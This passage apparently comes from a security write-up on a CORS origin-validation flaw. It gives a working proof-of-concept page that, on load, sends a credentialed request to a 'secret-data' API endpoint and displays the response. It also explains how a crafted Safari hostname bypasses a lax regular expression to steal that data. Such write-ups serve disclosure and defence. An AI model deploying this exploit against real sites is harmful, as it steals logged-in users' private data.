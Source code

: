 In the same directory, save the following:

[+] <special>cors.html</special>
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body onload="cors();">
<center>
cors proof-of-concept:<br><br>
<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://x.xxe.sh/api/secret-data/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```

Start the NodeJS server by running the following command:

```
node serve.js &
```

Like stated before, since the regular expression matches against alphanumeric ASCII characters and `. -`, special characters after "xxe.sh" would be trusted:

So if we open Safari and visit `http://x.xxe.sh{.<your-domain>/cors-poc`, we will see that we were able to successfully steal data from the vulnerable endpoint.

